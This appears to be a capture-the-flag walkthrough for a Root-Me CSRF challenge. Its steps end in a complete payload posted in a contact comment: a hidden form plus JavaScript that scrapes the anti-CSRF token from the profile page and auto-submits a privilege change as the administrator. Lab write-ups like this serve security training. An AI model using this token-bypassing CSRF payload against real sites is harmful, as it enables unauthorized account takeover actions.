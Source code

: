 1. [Open the task](http://challenge01.root-me.org/web-client/ch22/index.php)
2. [Register an account](http://challenge01.root-me.org/web-client/ch22/index.php?action=register)
3. [Log in to your account](http://challenge01.root-me.org/web-client/ch22/index.php?action=login)
4. [Go to the profile page](http://challenge01.root-me.org/web-client/ch22/index.php?action=profile)
5. Make the checkbox visible through the developer tool

	It was: ```<input type="checkbox" name="status" disabled="">```

	Become: ```<input type="checkbox" name="status">```

6. Launch **Burp Suite::Proxy::HTTP history**
7. Click the **Submit** button and check the request data
8. [Go to the Contact tab](http://challenge01.root-me.org/web-client/ch22/index.php?action=contact)
9. Enter in the **email** field: **_"username"_** + **_"@mail"_**
10. Enter the following into the **Comment** form:

```
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
<input type="hidden" name="username" value="YOUR_USERNAME"> <!-- Enter your username -->
<input type="hidden" name="status" value="on" />
<input id="token" type="hidden" name="token" value="" /> 
</form> 
<script> 
var request = new XMLHttpRequest(); 
request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false); 
request.send(null); 
var token = request.responseText.match("token\" value=\"(.*?)\"")[1];
document.getElementById("token").value = token; 
document.csrf.submit();
</script>
```

11. If everything is done correctly, you will see the following message: 

>Your message has been posted. The administrator will contact you later.

12. [Checking the Private tab](http://challenge01.root-me.org/web-client/ch22/index.php?action=private), you can get a **flag**